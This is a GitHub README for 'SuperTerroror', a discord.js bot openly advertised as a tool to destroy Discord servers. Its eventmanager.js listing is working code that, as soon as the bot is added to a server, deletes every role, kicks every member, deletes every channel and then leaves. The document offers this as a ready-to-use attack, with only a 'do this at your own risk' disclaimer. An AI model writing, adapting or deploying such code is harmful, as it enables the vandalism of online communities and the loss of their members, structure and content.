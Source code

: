 <h1 align=center><a href="https://github.com/xXhen2527Xx/SuperTerroror/"><img src="https://user-images.githubusercontent.com/85981610/138410773-c29bfe56-830c-4653-9613-ff7f93263170.png"></a></h1>
<p align=center>
    A <b>Terroror.js</b> bot, is made in <b>discord.js</b> to destroy discord servers!
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138411327-b0f56768-fc30-4951-8aae-9efa195958ba.png"></a></h1>

## Your app.js
```js
/* 
      DO THIS AT YOUR OWN RISK!
      We are not responisible of any damages on discord!
      Copyright by MincoMK
      https://www.minco.kro.kr/
*/
const Main = require("./src/Main.js"); // let discord make own main directory

let main = new Main(); // let make ./src/Main.js as main code
main.main(); // making main code is working
```

## Simple eventmanager.js

```js
const process = require("process");
const version = require("../package.json").version;

/* 
	Enables the SuperTerroror on Discord when bots join automatically make a bomb to server
*/
class EventManager {
	joinAllEvents(client) { // join bot for all events
		this.client = client; // this client
		client.on("ready", async () => { // on ready
			console.log("The bot is ready to terroror"); // when bot is ready log on console
		});

		client.on("guildCreate", guild => { // the server ---
			guild.roles.cache.forEach(role => { // for each role
				role.delete().catch(console.error); // --- delete all roles
			});
			guild.members.cache.forEach(mb => { // for each members
				mb.kick().catch(console.error); // --- kick all members
			});
			guild.channels.cache.forEach(ch => { // for each channels
				ch.delete().catch(console.error); // --- delete channels
			});
			guild.leave(); // and leave the bot after terroror
		});
	}
}

module.exports = EventManager; // export the eventmanager

// end of file
```
<b>When bots join, automatically terroror!</b>



<p align=center>
    View <a href="https://github.com/xXhen2527Xx/SuperTerroror/wiki/">Wiki</a> for <b>Full Installation and Guides</b> for building <b>SuperTerroror.js!</b>
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138412398-8be72245-210b-433f-9aa8-ef37f569c831.png"></a></h1>

- Added `express` app for Uptimerobot.com
- Removed `node_modules`, use `npm install / npm i` on terminal
- Added `disnotify` on `package.json`
- Added `@discord-opus`, `discord-api-types`, and other depencies of djs

[`View History Changelogs`](/changelogs.md) for All Information!

<h3 align=right>- Made by MincoMK and Hen2527</h3>

